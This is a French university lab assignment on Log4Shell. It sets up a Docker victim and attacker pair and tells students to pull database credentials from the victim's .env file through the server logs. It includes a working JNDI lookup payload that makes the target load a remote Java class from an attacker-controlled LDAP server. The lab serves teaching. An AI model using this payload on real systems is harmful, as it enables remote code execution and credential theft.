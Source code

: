# Sujet - TP Log4Shell 
### BERTRAND Timothé - BLANC Olivier - PAYS Antoine - GENIN Fabien
### A rendre pour le jeudi 10 février 2022 23H59


## Exercice

### **Objectif** : Récuperer le contenu de la BDD avec les informations présentes dans le fichier .env de la victime.


**Schéma explicatif rapide :** 

Vous êtes un attaquant et vous souhaitez accéder à une BDD, sauf que vous n'avez pas les informations pour vous connectez à la BDD. Ces informations se trouvent dans le fichier .env de la victime.
Il faut savoir que le développeur du serveur victime a choisi de logger les identifiants d'un utilisateur lors de l'envoi du formulaire.


## Configuration

Pour utiliser les commandes docker vous devrez vous connecter à VDN à l'iut comme vous en avez l'habitude pour les  autres TP précédents

Si vous utilisez les machines de l'iut, lancer `vdn docker-tmp`.
Start la machine root@debian-1
Dans la console de la VM root@debian-1, créer un répertoire "log4shell" 
Faire `cd log4shell` et ensuite `git clone https://github.com/Fabinhio25/TPLog4Shell`

Faire un `make all` pour créer tous les DockerFiles

Après avoir fait le make all, faire un `docker-compose up` dans le repertoire cloné.
Récupérer les IP de server et de victime dans la console quand docker-compose up est executé
Victim_1 | Running on IP : XXX.XXX  
Server_1 | Running on IP : XXX.XXX
L'IP server sera a mettre dans le lookup plus tard

Etapes à reproduire pour la réalisation du tp :

Créer un fichier java dans lequel le code devra récupérer et écrire le .env de la base de données dans les logs du serveur.
Appeler votre class java dans une requete faite au serveur, grace à un lookup vu en cours.

Exemple de lookup : "${jndi:ldap://<ipserver>:9999/WithReturn}"

## Vous pourrez trouver des exemples d'attaques dans le fichier "attacker.java"

### Question : 
    
    Le but est de se connecter sur le serveur de la victime en tant que administrateur. Utiliser le lookup vu en cours, afin d'appeler et d'exécuter la class (code malicieux). Pour écrire le contenu du fichier .env dans les logs, l'envoyer au loggeur du serveur afin de récupérer dans les logs du serveur. Grace à cette manipulation vous allez pouvoir récupérer l'identifiant et mot de passe de l'administrateur du serveur.

    Vous trouverez des exemples du fichier java /TPLog4Shell/attacker/java/ :

    Simple.java
    WithReturn.java
